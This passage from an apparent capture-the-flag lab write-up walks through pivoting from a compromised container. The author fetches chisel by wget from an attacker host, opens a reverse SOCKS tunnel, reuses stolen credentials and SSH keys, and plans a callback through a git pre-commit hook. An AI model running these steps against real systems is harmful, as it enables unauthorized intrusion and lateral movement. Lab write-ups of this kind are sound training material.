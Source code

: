Make a copy in our working directory:
`cp $(which chisel) .`

Now we can launch a server on a port of our choosing:

Command:
`chisel server -p 7777 --reverse`

Now we need to put a copy of `chisel` on our compromised container. First we'll start up a quick web server.

Command:
`python3 -m http.server 80`

Then from the container we'll `wget` `chisel` from it.

Command:
`wget 10.10.16.9/chisel`

Now, we can connect back to our attacking machine with this copy of `chisel`.

Command:
`chisel client 10.10.16.9:7777 R:socks`

Now for the final set, `proxychains`. We need to add `socks5` to our config file. Simply append `socks5 127.0.0.1 1080` to the bottom of your `proxychains.conf` file and comment out `socks4`.

Now we can use tools via `proxychains`. In this case, it's just easier to add out proxychains configurations to `foxyproxy` or whatever proxy management addon you're using. Once we do that, we can see the contents of port `3000` in full!

![](/images/opensource/opensource10.png)

Now we can use those credentials from earlier to log into `Gitea`. 

Right as we log in we can see the last thing this user did was create a `home-backup` repo. Sure enough, inside this repo are some `SSH` keys.

![](/images/opensource/opensource11.png)

We'll quickly download these and try to `SSH` as this user. Once we log in, `user.txt` is just waiting for us!

Now, time to escalate. We copy over `linpeas` and let that run to see what it might find. `Linpeas` finds a ton of things, but nothing we can leverage. Usually after `linpeas` runs I run `pspy`. So we transfer over a copy of that and start snooping processes. After some time of monitoring the feed, I noticed a recurring job for backups.

![](/images/opensource/opensource12.png)

We can abuse something called [pre-commit](https://verdantfox.com/blog/view/how-to-use-git-pre-commit-hooks-the-hard-way-and-the-easy-way). Essentially these are scripts that can be run when a specific event happens in a git repository.

In the `dev01` users home directory, there is a `.git` directory. Inside this directory is the `hooks` directory. Here is where the `pre-commit` scripts are stored. We'll simply make a script that reach out to our attacking machine and we should have elevated access!
